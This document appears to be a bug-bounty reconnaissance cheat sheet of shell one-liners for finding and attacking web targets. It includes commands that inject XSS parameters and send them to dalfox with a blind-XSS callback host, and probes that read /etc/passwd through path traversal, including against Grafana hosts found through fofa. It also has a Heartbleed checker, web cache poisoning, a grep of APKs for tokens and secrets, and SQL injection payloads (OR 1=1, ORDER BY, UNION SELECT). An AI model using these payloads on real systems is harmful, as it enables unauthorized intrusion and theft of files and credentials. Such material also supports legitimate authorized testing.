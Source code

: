 ##### To fetch javascript files from subdomain and waybackurls:
`echo "subdomain" | waybackurls | grep -P ".*\.js" | wget`
##### To get endpoints from javascript files:
`grep -RoP "(\/[a-zA-Z0-9_\-]+)+"`
##### To find hidden parameters in javascript files:

```bash
 cat subs.txt |gau | egrep -v '(.css|.svg)' | while read url; do vars=$(curl -s $url| grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"
```
##### Port scan without Cloudflare
`subfinder -silent -d uber.com | filter-resolved | cf-check | sort -u | naabu -rate 40000 -silent -verify | httprobe`
##### Extract IP from file
```bash
grep -E -o '(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)' file.txt
```

##### Find JS Files
```bash
assetfinder site.com | gau|egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)'|while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" |sed -e 's, 'var','"$url"?',g' -e 's/ //g'|grep -v '.js'|sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars";done
```

##### Extract endpoints from JS files
`cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u`

##### Get CIDR & Orgz from Target Lists
`for DOMAIN in $(cat domains.txt);do echo $(for ip in $(dig a $DOMAIN +short); do whois $ip | grep -e "CIDR\|Organization" | tr -s " " | paste - -; done | uniq); done`

##### Web cache poisoning tool
`gau example.com -o path/to/url.txt | xargs -a /path/to/url.txt -I{} -d'\n' ./wcp.sh url {} > cachepoison.txt`

##### Getting possibly DT vuln links
`httpx -l URLS.txt -follow-redirects -title -path /api/geojson?url=file:///etc/passwd -match-string "root:x:0:0"`
`cat subs.txt | httpx -threads 900 -random-agent | tee -a live.txt`

##### cleaning domain names
`cat domains.txt | egrep -v 'key|words|you|dont|want|wtf|') > clean.txt`

##### subs
`subfinder -d target -silent | sort -u | httpx -title -threads 100 -ports 443,80,9991,8000,10000,5000 -content-length -status-code -o httpxout.txt`

##### rename multiple files corresponding to a list via perl
`perl -lne 'rename("$..html","$_.html")' names.txt`

##### Xss possible automation
```bash
cat Target.com | gau -subs | grep "https://" | grep -v "png\|jpg\|css\|js\|gif\|txt" | grep "=" |uro |dalfox pipe --deep-domxss --multicast --blind username.xss.ht
```

##### Grafana endpoints vulnerable to LFI
`echo 'app="Grafana"' | fofa -fs 1000 | httpx -status-code -path "/public/plugins/graph/../../../../../../../../etc/passwd" -mc 200 -ms 'root:x:0:0'`
##### Heartbleed checker
`cat list.txt | while read line ; do echo "QUIT" | openssl s_client -connect $line:443 2>&1 | grep 'server extension "heartbeat" (id=15)' || echo $line: safe; done`
##### Extract urls from junky data/js files etc.
`cat file | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*"*`  or  `curl http://host.xx/file.js | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*"*`
##### Extract Potentially sensitive files from android apk
`apktool d app_name.apk | grep -EHirn "accesskey|admin|aes|api_key|apikey|checkClientTrusted|crypt|http:|https:|password|pinning|secret|SHA256|SharedPreferences|superuser|token|X509TrustManager|insert into" APKfolder/`

#### Remove the noise from burp
```
.*\.google\.com 
.*\.gstatic\.com 
.*\.googleapis\.com
.*\.pki\.goog
.*\.mozilla\..*
```

##### Find login portals from given list of domains
`cat hosts.txt | httprobe -c 300 | ffuf -w - -u FUZZ -mr "assword"`
##### Find CIDR range with ASN number
`whois -h whois.radb.net -- '-i origin AS22843' | grep -Eo "([0-9.]+){4}/[0-9]+" | sort -u`
This can be done with amass too: `amass intel -asn ASN` which works in reverse and gives the domains too: `amass intel -cidr CIDR`
##### SQL injection checking in token parameter
`/v1/users.php?format=json&token=invalid_token'+or+'1'='1`
##### Another example using ORDER BY:
`/v1/users.php?format=json&token=valid_token'+order+by+1--+`
*If response is valid,column 1 exists,change the number and each request will reveal number of columns
##### UNION SELECT usage to gather more info:
`/v1/users.php?format=json&token=valid_token'union+select+1,2,3,4,5--`
There will be displayed certain numbers in the response and when we use SQL functions like, database() or version() etc.
